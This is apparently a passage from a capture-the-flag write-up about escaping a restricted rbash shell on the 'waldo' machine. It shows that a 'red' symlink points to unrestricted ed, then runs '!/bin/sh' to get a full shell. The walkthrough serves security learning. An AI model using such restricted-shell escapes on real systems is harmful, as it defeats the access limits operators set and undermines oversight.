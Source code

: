 ```

monitor@waldo:~$ tail -1 .bashrc
PATH=/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1

```

In both escapes that follow, once I’m able to get a different shell, I’m able to change the path, and I’ve completely escaped.

#### Intended Route: red

In the bin dir, I’ll find a few editors:

```

monitor@waldo:~$ ls -l bin
total 0
lrwxrwxrwx 1 root root  7 May  3  2018 ls -> /bin/ls
lrwxrwxrwx 1 root root 13 May  3  2018 most -> /usr/bin/most
lrwxrwxrwx 1 root root  7 May  3  2018 red -> /bin/ed
lrwxrwxrwx 1 root root  9 May  3  2018 rnano -> /bin/nano

```

For each editor, they link back to the normal versions. Sometimes there’s an `r` in front of the name (to imply restricted). Neither `nano` nor `most` have any ability to run shell commands.

`red` is the name for the restricted version of `ed`, that doesn’t allow you to call system commands from inside it, for example. But this `red` just links back to unrestricted `ed`, not to an instance of `red`.

To escape `rbash` via `ed`, I’ll take advantage of `ed`’s ability to run shell commands. From the `ed` man page:

> !*command*
>
> Executes *command* via **sh**(1). If the first character of *command* is ‘!’, then it is replaced by text of the previous *‘!command’*. **ed** does not process *command* for backslash () escapes. However, an unescaped *’%’* is replaced by the default filename. When the shell returns from execution, a ‘!’ is printed to the standard output. The current line is unchanged.

So, I can just open `ed`, type `!/bin/sh`, and have a full shell:

```

monitor@waldo:~$ red
!/bin/sh
$ pwd
/home/monitor
$ cd /
$ ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old

```
